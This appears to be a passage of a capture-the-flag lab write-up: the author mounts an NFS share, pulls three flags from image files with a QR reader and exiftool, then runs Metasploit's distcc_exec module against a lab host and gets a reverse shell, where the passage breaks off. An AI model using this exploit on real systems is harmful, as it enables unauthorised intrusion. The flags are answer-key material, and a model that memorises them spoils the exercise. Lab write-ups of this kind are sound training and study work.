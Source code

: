 There's a single nfs share, /exports, which we can mount. Within it are several files, a 'dicta.pages' and 'voluptatibus.doc' file stumped me for a bit-- I'd later learn that they were created my SecGen when the CTF was being designed. There were also three images, each containing a flag:

image1.png: a QR code
`flag{Diflucans offloading}`

image2.png: in exftool output
```
┌[/mnt]
└⇾ root $ exiftool image2.png 
ExifTool Version Number         : 11.93
File Name                       : image2.png
...
Y Resolution                    : 1
Comment                         : flag{9c9ab20e}
Image Width                     : 512
...
Megapixels                      : 0.262

image3.png: exiftool output

┌[/mnt]
└⇾ root $ exiftool image3.png 
ExifTool Version Number         : 11.93
File Name                       : image3.png
...
XMP Toolkit                     : Image::ExifTool 9.27
Title                           : flag{shaft ouabains}
Image Width                     : 512
...
Megapixels                      : 0.262
```

After poking at the SecGen files, I moved back to enumerating. Metasploit had a module for distccd so I tried it and got a shell.
```
msf5 > use exploit/unix/misc/distcc_exec
msf5 exploit(unix/misc/distcc_exec) > show options

Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   3632             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf5 exploit(unix/misc/distcc_exec) > set RHOSTS 192.168.56.102
RHOSTS => 192.168.56.102
msf5 exploit(unix/misc/distcc_exec) > run

[*] Started reverse TCP double handler on 192.168.56.103:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo r7cApZJB5IKNddg4;
[*] Writing to socket A
```